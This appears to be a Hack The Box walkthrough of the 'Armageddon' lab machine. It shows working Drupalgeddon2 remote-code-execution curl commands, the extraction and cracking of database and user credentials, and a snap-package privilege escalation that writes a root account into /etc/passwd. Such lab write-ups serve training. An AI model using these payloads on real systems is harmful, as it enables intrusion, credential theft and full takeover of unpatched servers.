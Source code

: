 ![](armageddon_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.233 armageddon.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
```

* nmap found robots.txt file on the server.

## Identify CMS

* wappalyzer identify cms is drupal 7

![](screenshots/wappalyzer-scan.png)

* Running [droopescan](https://github.com/droope/droopescan) found the drupal version

![](screenshots/droopescan-scan.png)

* searching for exploit in searchsploit found RCE

![](screenshots/searchsploit-scan.png)

# Foothold

## Drupal property injection: Drupalgeddon 2

* [CVE-2018-7600/SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)
  * A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.
* [gotmilk gist of different drupal drupalgeddon2 PoCs](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708)

```bash
id=$(curl -k -s 'http://armageddon.htb/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=id' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id | cut -d'"' -f6) && echo $id

curl -s "http://armageddon.htb/?q=file/ajax/name/%23value/$id" \
    --data "form_build_id=$id" | head -n -1
```

![](screenshots/drupal-exploit.png)

**Exploit Script**

* Drupalgeddon2 Exploit script from [dreadlocked@github](https://github.com/dreadlocked/Drupalgeddon2)

![](screenshots/web-shell.png)

Got a restricted shell on the box.

### Execute mysql in non interactive shell

shell is almost completely disconnected and restricted from file system. nothing to do here.

back to web server, found a file `/update.php` that tells access dinied and refer to `settings.php`
* Drupal cms sites all config settings available in the `../sites/<site-name>/settings.php`

![](screenshots/find-settings.png)

Found mysql database password in `settings.php` file

![](screenshots/db-creds.png)

creds are working but don't have interactive shell

![](screenshots/mysql-login.png)

Using mysql commandline flags to execute database command
```bash
-e, --execute=name  Execute command and quit.
-D, --database=name Database to use.
```

and found admin password hash who is also the user in the box
```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'SELECT * FROM users;'
```

![](screenshots/pwd-hash.png)

admin user hash cracked with john 
```bash
brucetherealadmin:$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```
![](screenshots/hash-cracked.png)

successfully login to ssh with admin creds

![](screenshots/ssh-login.png)

# Privesc

## `snap install` with sudo
<!--brucetherealadmin:booboo-->

in the box user "brucetherealadmin" have sudo right to run `/usr/bin/snap` as root with NOPASSWD.
```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

Found Exploit on [gtfobins](https://gtfobins.github.io/gtfobins/snap/)

**Create snap package**
* Generate password hash with command `openssl passwd "Password"`
```bash
COMMAND='echo "toor:VmIEBMKbM9avc:0:0:root/root:/bin/bash" >> /etc/passwd'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

If `fpm` is not install
```bash
sudo gem install --no-document fpm
sudo apt-get install squashfs-tools
```

upload package with scp
```bash
sshpass -p 'booboo' scp ./xxxx_1.0_all.snap brucetherealadmin@armageddon.htb:/home/brucetherealadmin/snap
```

And finally run
```bash
sudo -u root /usr/bin/snap install * --dangerous --devmode
```

![](screenshots/armageddon-rooted.png)

